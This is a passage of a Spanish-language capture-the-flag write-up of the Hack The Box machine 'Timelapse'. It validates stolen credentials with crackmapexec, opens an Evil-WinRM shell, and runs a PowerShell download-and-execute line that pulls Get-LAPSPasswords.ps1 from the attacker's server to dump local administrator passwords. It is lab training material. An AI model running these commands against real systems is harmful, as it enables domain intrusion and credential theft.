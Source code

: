 Verificamos con `crackmapexec` si las credenciales son válidas.

```bash
❯ crackmapexec smb 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
```

Al ser válidas, podemos iniciar sesión a través de `Evil-WinRM` utilizando el siguiente comando:

```bash
❯ evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```

Existe un script de PowerShell en GitHub llamado https://github.com/kfosaaen/Get-LAPSPasswords, que permite recuperar las contraseñas de `LAPS`.

Alojamos el archivo `Get-LAPSPasswords.ps1` en un servidor web utilizando Python para luego descargarlo en la máquina víctima.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Con el siguiente comando, descargamos y ejecutamos el script `Get-LAPSPasswords.ps1`:

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.148/Get-LAPSPasswords.ps1')
```

Luego, ejecutamos la función `Get-LAPSPasswords` para obtener las contraseñas de las cuentas de administrador local generadas por `LAPS`.

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 7]pZ-rLF480%v;mABF$j;a53
Expiration : 8/1/2023 7:46:35 AM

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 7]pZ-rLF480%v;mABF$j;a53
Expiration : 8/1/2023 7:46:35 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
```